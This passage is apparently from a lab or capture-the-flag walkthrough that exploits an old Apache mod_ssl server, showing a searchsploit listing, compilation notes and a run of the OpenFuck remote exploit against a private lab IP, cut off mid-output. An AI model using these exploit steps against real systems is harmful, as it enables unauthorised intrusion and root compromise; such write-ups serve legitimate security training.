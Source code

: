   
Although exploit-db revealed a few exploits, almost all of them are not what we seek. Some of them are targeting different versions, others are local exploits (for a limited shell maybe?). One particularly interesting is [this](https://www.exploit-db.com/exploits/21314/) one.
  
After spending some time compiling old openssh version and trying out the exploit, it failed to work as the victim didn't have the specific misconfiguration targeted.  

___________________________________________

## 3\. Exploiting Apache (and getting root!)

Searching for apache exploits revealed too many results, but searching for the specific version revealed some [juicy data](https://www.exploit-db.com/exploits/764/).  
```console
root@kali:~# searchsploit apache mod_ssl  
---------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------  
 Exploit Title                                                                                                                                      |  Path  
                                                                                                                                                    | (/usr/share/exploitdb/platforms)  
---------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------  
Apache mod_ssl (< 2.8.7) OpenSSL - 'OpenFuckV2.c' Remote Exploit (2)                                                                                | ./unix/remote/764.c  
Apache mod_ssl 2.8.x - Off-by-One HTAccess Buffer Overflow                                                                                          | ./multiple/dos/21575.txt  
Apache mod_ssl (< 2.8.7) OpenSSL - 'OpenFuck.c' Remote Exploit (1)                                                                                  | ./unix/remote/21671.c  
Apache mod_ssl OpenSSL < 0.9.6d / < 0.9.7-beta2 - 'openssl-too-open.c' SSL2 KEY_ARG Overflow Exploit                                                | ./unix/remote/40347.txt  
Apache mod_ssl 2.0.x - Remote Denial of Service                                                                                                     | ./linux/dos/24590.txt  
---------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------  
root@kali:~#   
````
  
It both matches Apache's version (1.3.20) and mod_ssl's (2.8.4).  
  
To compile it you'll both need to install `libssl-dev` and [update the script.](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/)  
  
Running it without any arguments shows us a long list of valid OS-Apache version combinations. The closest one to our system are the following:  

```
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2 
```

```console
root@kali:~# ./a.out 0x6a 192.168.1.104 -c 50  
  
*******************************************************************  
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *  
*******************************************************************  
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *  
* #hackarena  irc.brasnet.org                                     *  
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *  
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *  
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *  
*******************************************************************  
  
Connection... 50 of 50  
Establishing SSL connection  
cipher: 0x4043808c   ciphers: 0x80f81e8  
```